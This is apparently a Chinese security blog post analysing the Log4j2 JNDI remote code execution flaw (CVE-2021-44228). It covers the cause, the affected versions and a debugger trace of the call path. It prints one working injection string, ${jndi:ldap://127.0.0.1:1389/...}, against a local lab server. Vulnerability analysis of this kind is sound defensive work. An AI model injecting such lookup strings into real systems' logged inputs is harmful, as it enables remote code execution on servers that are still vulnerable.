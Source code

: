 #  ATT&CK-Log4j2远程代码执行漏洞（CVE-2021-44228）漏洞分析   
小海  雷神众测   2022-06-09 15:00  
  
**STATEMENT**  
  
**声明**  
  
由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，雷神众测及文章作者不为此承担任何责任。  
  
雷神众测拥有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经雷神众测允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。  
  
  
  
前言  
  
**原理：**该漏洞的触发点在于，利用  
  
org.apache.logging.log4j.Logger进行log或error等记录操作时，未对日志message信息进行有效检查，在format方法中会判断传入的参数中是否存在 ”${“ 参数，当存在时，就会将传入的以“${“开头，以“}”结尾的内容进行提取，然后将其value值传入lookup方法，而log4j的lookup方法可以调用jdni、rmi进行代码执行，最终造成反序列号漏洞被利用。**漏洞影响范围：**Apache log4j2 2.0 - 2.14.1 版本均受影响。**安全版本：**Apache log4j-2.16.0-rc1  
  
  
  
**环境搭建**  
  
下载log4j2_rce ，idea直接打开运行即可，如果漏洞无法利用，可以更换jdk版本，或者配置trustURLCodebase的参数为ture。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW9pA2BicFSOAIgZficxjicF7GUfNhgGgg6ojzJa0lLhiblkQ7T4v0uErBueVSRd2LG6ZxmXLjniaTIhMg/640?wx_fmt=png "")  
  
  
  
代码分析  
  
首先在logger.error设置断点调试；  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW9pA2BicFSOAIgZficxjicF7G1zfMh7hib1El7XTJWypebiccmncSBiaBR4kC09IIklSC3Mur5I8vpzMQw/640?wx_fmt=png "")  
  
继续跟进，位置：  
```
C:\Users\HOME.m2\repository\org\apache\logging\log4j\log4j-core\2.8.1\log4j-core-2.8.1-sources.jar!\org\apache\logging\log4j\core\config\LoggerConfig.java
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW9pA2BicFSOAIgZficxjicF7Gqbu6yFcvk3LibiaoWSYO5Iu4P7jpIYiaBdrGvm84Cl08OahEFvDwajYHQ/640?wx_fmt=png "")  
  
对输入内容 event，进行encode加密；  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW9pA2BicFSOAIgZficxjicF7GJxujbqdCRXyW1DoJxjlwv6mE9fDZGFahXct8NJVbSYk6jgFjbdic1LQ/640?wx_fmt=png "")  
  
encode方法对输入内容序列化。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW9pA2BicFSOAIgZficxjicF7GoTotc37ZYycib6bU6VJvZHqH3r0UhTia9Nzqy1lR12hGHP2hxc6LibH5w/640?wx_fmt=png "")  
  
event为  
```
Logger=com.kk.log4j2_rce.controller.UserController Level=ERROR Message=${jndi:ldap://127.0.0.1:1389/wl3ljc}。
```  
  